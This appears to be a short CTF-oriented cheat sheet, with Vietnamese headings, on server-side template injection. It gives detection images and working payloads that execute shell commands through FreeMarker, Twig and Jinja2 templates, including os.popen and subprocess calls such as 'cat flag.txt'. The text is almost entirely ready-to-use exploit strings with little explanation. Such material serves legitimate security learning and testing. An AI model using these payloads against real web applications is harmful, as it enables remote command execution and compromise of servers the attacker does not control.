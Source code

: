 [Tham khao PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

# Nhận Biết 
![](https://github.com/tinasahara1/Vulnerable-CTF-/blob/287a3962715837c0365f5ec4a4d483d76721cf02/SQL/MySQL/image/ssti.png)


## FreeMarker (Java) : The template can be ${3*3} or the legacy #{3*3}
![freemarket](https://github.com/tinasahara1/Vulnerable-CTF-/blob/287a3962715837c0365f5ec4a4d483d76721cf02/SQL/MySQL/image/freemarket.png)


### Payload
```java
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}
```


## Twig (PHP) 
![twig](https://github.com/tinasahara1/Vulnerable-CTF-/blob/287a3962715837c0365f5ec4a4d483d76721cf02/SQL/MySQL/image/twig.png)


### Payload
```php
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```


## Jinja2 (Python) 
![jira](https://github.com/tinasahara1/Vulnerable-CTF-/blob/287a3962715837c0365f5ec4a4d483d76721cf02/SQL/MySQL/image/jira.png)



### Payload
```py
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```


